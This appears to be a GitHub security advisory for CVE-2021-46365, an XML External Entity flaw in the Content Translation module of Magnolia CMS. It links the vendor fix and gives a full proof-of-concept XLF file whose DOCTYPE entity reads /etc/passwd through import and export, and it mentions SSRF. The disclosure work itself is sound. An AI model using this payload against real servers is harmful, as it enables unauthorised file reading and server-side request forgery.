



# CVE-2021-46365: XML External Entity in Content Translation in Magnolia CMS

In Magnolia (versions <=6.2.3) when importing ".XLF" files in the "Content Translation" module, if the XLF contains malicious XML "DOCTYPE" entities, these can be used to:
- Read arbitrary files by using the "file:" protocol and the "Export" function
- Perform Server-Side Request Forgery (SSRF) attacks

### Vendor Disclosure:

The vendor's disclosure and fix for this vulnerability can be found [here](https://docs.magnolia-cms.com/product-docs/6.2/Releases/Release-notes-for-Magnolia-CMS-6.2.4.html#_security_advisory).

### Requirements:

This vulnerability requires:
<br/>
- Valid user credentials

### Proof Of Concept:

The following XLF file was used to import the content of the “/etc/passwd” file into the translation:
```
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE note [<!ENTITY sp SYSTEM "file:///etc/passwd"> ]>
<xliff xmlns="urn:oasis:names:tc:xliff:document:1.2" version="1.2">
    <file datatype="html" original="magnolia.export" source-language="en" target-language="de">
        <header/>
        <body>
            <trans-unit extradata="2015.10.27 11:41:44 110" id="05872876-073e-40a3-a3c5-0d0a18c1d43d:title" resname="Page properties: Page title">
                <source xml:lang="en">&sp;</source>
                <target xml:lang="de"/>
                <note>http://travel-demo.magnolia-cms.com/tour-type.html</note>
            </trans-unit>
            <trans-unit extradata="2015.10.27 11:41:44 110" id="05872876-073e-40a3-a3c5-0d0a18c1d43d:navigationTitle" resname="Page properties: Navigation title">
                <source xml:lang="en">Tours</source>
                <target xml:lang="de"/>
                <note>http://travel-demo.magnolia-cms.com/tour-type.html</note>
            </trans-unit>
        </body>
    </file>
</xliff>
```

<strong>Note:</strong> The XLF/XML file can be found [here](Payloads/exploit.xlf) for easy download.
<br/>

We import the above XLF into a translation and then we can immediately export the respective translation in order to obtain the contents of "/etc/passwd".
<br/>

Import:


Export (any format can be used for the export, but in this case, CSV is used):


Resulting CSV containing "/etc/passwd":

